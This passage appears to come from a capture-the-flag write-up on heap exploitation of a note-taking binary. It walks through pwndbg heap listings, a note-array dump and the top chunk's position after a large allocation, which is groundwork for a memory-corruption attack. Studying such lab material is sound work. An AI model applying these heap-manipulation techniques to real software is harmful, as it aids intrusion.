 ```
bk: 0x7f1cda12fbe0

Allocated chunk
Addr: 0x56176779efe0
Size: 0x10

Allocated chunk | PREV_INUSE
Addr: 0x56176779eff0
Size: 0x11

Allocated chunk
Addr: 0x56176779f000
Size: 0x00

pwndbg> version
Gdb:      8.1.1
Python:   3.6.9 (default, Jan 26 2021, 15:33:00)  [GCC 8.4.0]
Pwndbg:   1.1.0 build: f74aa34
```

Notice that pwndbg's `heap` command doesn't seem to detect that new allocation. This is probably a bug, and is present in version `1.1.0 build: f7aa34` as seen above. So we'll have to find it ourself.

```
pwndbg> dq &note
000056176626d040     000056176779e2a0 00005617677bf010
000056176626d050     0000000000000000 0000000000000000
000056176626d060     0000000000000000 0000000000000000
000056176626d070     0000000000000000 0000000000000000

pwndbg> vis 1 0x5617677bf010-0x10

0x5617677bf000  0x0000000000000000      0x0000000000000d51      ........Q.......
0x5617677bf010  0x0000000000000000      0x0000000000000000      ................
0x5617677bf020  0x0000000000000000      0x0000000000000000      ................

pwndbg> vis 1 0x5617677bf010-0x10+0xd50

0x5617677bfd50  0x0000000000000000      0x00000000000212b1      ................         <-- Top chunk
```

Since the challenge binary isn't stripped, we can simply check the note array which keeps track of all the notes we've allocated. As seen above, we've been allocated the `0xd50` chunk that we requested, and the top chunk is now at `0x5617677bfd50`.

```
Allocated chunk | PREV_INUSE (Tcache struct (default))
Addr: 0x56176779e000
Size: 0x291

Allocated chunk | PREV_INUSE (First Note)
Addr: 0x56176779e290
Size: 0x21

Free chunk (unsortedbin) | PREV_INUSE (Freed remaining space from initial top)
Addr: 0x56176779e2b0
Size: 0xd31
fd: 0x7f1cda12fbe0
bk: 0x7f1cda12fbe0

Allocated chunk (Fencepost chunk)
Addr: 0x56176779efe0
Size: 0x10
```